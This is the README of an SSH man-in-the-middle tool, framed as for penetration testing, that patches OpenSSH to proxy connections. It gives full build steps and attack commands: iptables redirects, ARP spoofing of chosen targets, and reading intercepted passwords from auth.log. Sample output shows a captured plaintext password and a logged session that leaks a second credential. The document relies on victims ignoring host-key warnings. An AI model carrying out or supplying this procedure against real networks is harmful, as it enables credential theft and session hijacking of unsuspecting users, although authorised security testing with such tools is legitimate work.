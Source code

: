 # SSH MITM v1.0

## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.  Until the dependency on root privileges is removed, be sure to only run this code on throw-away VMs/containers.


## To Do

This is the first release of this tool.  While it is very useful as-is, there are nevertheless things to improve:

* Support SFTP MITM'ing.
* Add port forwarding support.
* Remove dependency on root privileges.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

1.) Install zlib and openssl headers:

    sudo apt install zlib1g-dev libssl-dev

2.) Download OpenSSH v7.5p1 and verify its signature:

    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/RELEASE_KEY.asc
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz
    wget https://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.5p1.tar.gz.asc
    gpg --import RELEASE_KEY.asc
    gpg --verify openssh-7.5p1.tar.gz.asc openssh-7.5p1.tar.gz

3.) Unpack the tarball, patch the sources, and compile it:

    tar xzf openssh-7.5p1.tar.gz
    patch -p0 < openssh-7.5p1-mitm.patch
    mv openssh-7.5p1 openssh-7.5p1-mitm; cd openssh-7.5p1-mitm; ./configure --with-sandbox=no && make -j 10

4.) Create keys and setup environment:

    sudo ssh-keygen -t ed25519 -f /usr/local/etc/ssh_host_ed25519_key < /dev/null
    sudo ssh-keygen -t rsa -b 4096 -f /usr/local/etc/ssh_host_rsa_key < /dev/null
    sudo useradd -m sshd && sudo useradd -m bogus && sudo chmod 0700 ~sshd ~bogus
    sudo mkdir /var/empty; sudo cp ssh ~bogus/


## Running The Attack

1.) Run *sshd*:

    cd /path/to/openssh-7.5p1-mitm
    sudo $PWD/sshd -f $PWD/sshd_config

2.) Enable IP forwarding:

    sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    sudo iptables -P FORWARD ACCEPT

3.) Allow connections to *sshd* and re-route forwarded SSH connections:

    sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
    sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 22

4.) ARP spoof a target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

5.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

6.) Once a session is established, a full log of all input & output can be found in */home/bogus/session_\*.txt*.


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:
    May 16 23:14:01 showmeyourmoves sshd[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session can be found in */home/bogus/session_\*.txt*:

    # cat /home/bogus/session_0.txt
    Last login: Tue May 16 21:35:00 2017 from 10.50.22.x
    OpenBSD 6.0-stable (GENERIC.MP) #12: Sat May  6 19:08:31 EDT 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like sudo and ssh temporarily disable echoing in order to read a password, duplicate characters are not logged.


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh valid_user_on_debug_host@localhost

To create a new patch, use these commands:

    pushd openssh-7.5p1-mitm/; make clean; popd
    diff -ru --new-file -x '*~' -x 'config.*' -x Makefile.in -x Makefile -x opensshd.init -x survey.sh -x openssh.xml -x buildpkg.sh openssh-7.5p1 openssh-7.5p1-mitm/ > openssh-7.5p1-mitm.patch
